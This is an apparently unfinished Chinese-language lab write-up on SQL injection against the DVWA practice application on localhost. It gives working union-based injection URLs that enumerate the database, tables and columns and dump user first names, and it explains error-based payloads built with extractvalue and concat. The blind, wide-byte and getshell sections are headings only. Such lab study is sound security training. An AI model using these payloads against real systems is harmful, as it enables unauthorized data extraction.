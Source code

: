# 一、分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤。
## 1. 正常功能描述
![Alt text](image.png)
此处为输入一个id，获取对应用户的 `First name` 和 `Surname`。
## 2. 验证是否存在注入的可能
```text
输入 `1'`
```
![Alt text](image-1.png)   

由此可见，此处可能存在注入点。

## 3. 构造第一个注入语句

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1%27%20union%20all%20select%201,2,3--%20&Submit=Submit#
```
![Alt text](image-2.png)

## 4. 确认后台SQL语句字段的查询数量

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1%27%20union%20all%20select%201,2--%20&Submit=Submit#
```
![Alt text](image-3.png)

## 5. 获取当前数据库名称

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select database(),2-- &Submit=Submit#
```
![Alt text](image-4.png)   

## 6. 获取当前数据库中的表名

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select table_name,2 from information_schema.tables where table_schema = database()-- &Submit=Submit#
```
![Alt text](image-5.png)

## 7. 获取目标表（`users`）中的字段
```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select column_name,2 from information_schema.columns where table_name = 'users'-- &Submit=Submit#
```

![Alt text](image-6.png)

## 8. 获取目标字段（`first_name`）的数据
```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select first_name,2 from users-- &Submit=Submit#
```
![Alt text](image-7.png)

# 二、分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题：
## 1. 在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？
### 1.1 extractvalue 函数介绍
Extractvalue是一个MySQL的函数，它可以用于从XML数据中提取值，并将提取的结果作为一个字符串返回。使用该函数可以解析XML和XPath表达式，并从中提取所需的数据。它的语法如下：   

```sql
extractvalue(xml_document, xpath_expression)
```   

其中`xml_document`是一个XML类型的数据，可以是字符串、XML类型的字段或文档类型的对象。而`xpath_expression`则是要提取的值所在的`XPath`表达式。这个XPath表达式可以是绝对路径，也可以是相对路径。  

`XPath`路径表达式：   

|表达式|描述|
|---|---|
|nodename|选取此节点的所有子节点。|
|/|从根节点选取|
|//|从匹配选择的当前节点选择文档中的节点，而不考虑它们的位置。|
|.|选取当前节点|
|..|选取当前节点的父节点|
|@|选取属性|


下面做个简单的例子：
```sql
select extractvalue('<a><b>aaa</b></a>','/a/b');
```   

![Alt text](image-8.png)   

在第一个参数位构造了一个xml数据，然后第二个参数位指定获取路径`/a/b`下的数据，结果是 `aaa`。

### 1.2 为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？
根据上面对 `extractvalue` 函数的了解，他的参数 1 的位置可以是字符串，XML类型的字段或文档类型的对象，当 '~' 在参数 1 的位置时，满足字符串的要求，所以并没有什么问题；但是如果将 '~' 放在参数 2 的位置时，'~' 是一个非法的XPath路径表达式字符，所以会报错。

## 2. 报错注入中，为什么要突破单引号的限制，如何突破？
### 2.1 通过后台模拟执行的语句，查看在不做单引号突破的情况的执行结果
```sql
 SELECT first_name, last_name FROM users WHERE user_id = '1' union all select  extractvalue(1,'~database()');
```
![Alt text](image-10.png)   

通过执行结果可以看出，报错信息将 `'~database()'` 部分当做一个字符串来执行了，并没有执行其中的 `database()` 函数。
### 2.2 使用 `concat` 函数，进行拼接的方式，来突破单引号的限制
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union all select  extractvalue(1,concat('~',database()));
```
![Alt text](image-11.png)   

通过直接结果可以看出，`database()` 函数成功执行，获取到了当前的数据库。
## 3. 在报错注入过程中，为什么要进行报错，是哪种类型的报错？
此问题分为两个部分，一个是为什么要进行报错，另一个是哪种类型的报错。
### 3.1 为什么要进行报错？

### 3.2 哪种类型的报错？
# 三、任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。
# 四、利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。
# 五、利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤。